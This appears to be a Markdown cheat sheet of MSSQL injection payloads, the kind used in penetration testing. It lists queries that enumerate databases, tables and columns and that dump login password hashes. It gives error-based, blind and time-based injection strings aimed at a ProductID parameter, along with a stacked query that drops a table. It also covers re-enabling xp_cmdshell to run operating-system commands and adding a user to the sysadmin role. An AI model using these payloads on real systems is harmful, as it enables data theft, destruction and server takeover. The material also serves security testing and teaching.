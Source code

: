 # MSSQL Injection

## MSSQL version

```sql
SELECT @@version
```

## MSSQL database name

```sql
SELECT DB_NAME()
```

## MSSQL List Databases

```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL List Column

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL List Tables

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
```

## MSSQL User Password

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL Error based

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

## MSSQL Blind based

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## MSSQL Time based

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'                              comment:   --
```

## MSSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
ProductID=1; DROP members--
```

## MSSQL Command execution

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1'
```

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## Thanks to

* [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Sqlinjectionwiki - MSSQL](http://www.sqlinjectionwiki.com/categories/1/mssql-sql-injection-cheat-sheet/)
* [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
